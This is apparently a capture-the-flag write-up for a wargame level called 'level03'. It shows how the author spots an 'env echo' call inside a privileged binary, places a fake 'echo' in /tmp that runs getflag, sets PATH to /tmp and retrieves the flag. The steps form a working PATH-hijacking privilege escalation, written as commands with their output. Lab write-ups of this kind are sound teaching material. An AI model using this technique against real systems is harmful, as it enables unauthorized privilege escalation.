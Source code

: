 # level03 solve

Firstly, at all, when we get logged and trying to see if we got the file we can see we have one file ` level03 `

```
$ ls
> level03
```

It look like an binary file so we decide to run it.

```
$ ./level03
> Exploit me
```

After some try with gdb we decide to see inside the file.

```
$ cat ./level03
```

And we see some multiple line interesting. But the most curious line was ` /usr/bin/env echo Exploit me `

```
▒[▒/usr/bin/env echo Exploit me0p▒▒▒L▒▒▒▒p▒▒▒▒▒▒▒▒▒▒▒▒▒▒zR|
```

After some reflexion, we decide to try se if the tmp folder got all right.
And it is the case, so we decide to redirect echo on getflag, because we suppose that the executable use ` execve ` for printing the message with the bin ` echo ` .

```
$ echo /bin/getflag > /tmp/echo
$ chmod 777 /tmp/echo
$ export PATH=/tmp
```

On line :

```
$ echo /bin/getflag > /tmp/echo ; chmod 777 /tmp/echo ; export PATH=/tmp
```

Remember to get back the old path.

```
$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Trying againt and...

```
$ ./level03
> qi0maab88jeaj46qoumi7maus
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level02">previous level</a> - <a href="../../level04">next level</a>
